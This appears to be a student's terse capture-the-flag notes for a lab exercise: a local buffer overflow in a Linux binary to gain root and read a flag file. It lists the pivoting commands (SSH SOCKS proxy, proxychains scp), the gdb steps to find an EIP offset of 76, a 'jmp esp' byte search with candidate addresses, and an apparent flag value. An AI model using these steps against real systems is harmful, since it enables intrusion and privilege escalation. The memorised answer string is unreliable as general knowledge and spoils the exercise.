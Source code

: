 **Situation**: Other teams have extracted this networked binary from a Donovian development network. It is believed to closely related to software running in both the Donovian and Gorgan internal networks. Discover vulnerabilities and create a reliable exploit to gain remote access. This will enable exploitation against Donovian targets and provide the basis for developing mitigations on friendly Gorgan networks. You will be required to exfil a copy from the target to your Op Station.

Provided: Executable Package: inventory.exe
Task: Perform a local buffer overflow on the vulnerable Linux executable, in order to gain access to the desired intel.
Method: Utilize RE toolset and python to launch and develop exploit.

ASLR is disabled on the target machine.

Exploit this binary found on 192.168.28.111 at /.hidden/inventory.exe to escalate privileges from your pivot user to root.

Enter the contents of /.secret/.verysecret.pdb as the flag

        - on lin-ops: ` ssh -D 9050 10.50.21.133 -NT`
        - in new window on lin-ops: `proxychains scp -P 2222 comrade@192.168.28.111:/.hidden/inventory.exe .`
        - open gdb, put a ton of A in to find out segfault 
        - then go to buffer overflow website to get a pattern 
        - run the file again in gdb, then put in that pattern. Look for the EIP hex, put that into registry to get an offset of **76**
        - modify exploit python file to match new offset
        -r <<< $(python exploit_CTF1.py)
        - proof of concept works
        - **open up new gdb with env off to have fresh slate**
        - r 
        - info proc map 
        - ` find /b 0xf7de2000, 0xf7ffe000, 0xff, 0xe4`
        - 0xf7de4b51
0xf7f5974b
0xf7f65753
0xf7f65c6b
0xf7f65df7
0xf7f6607b


        0xf7df1b51
0xf7f6674b
0xf7f72753
0xf7f72c6b
0xf7f72df7

9HGUx9PhojvbtGlZ5d2y
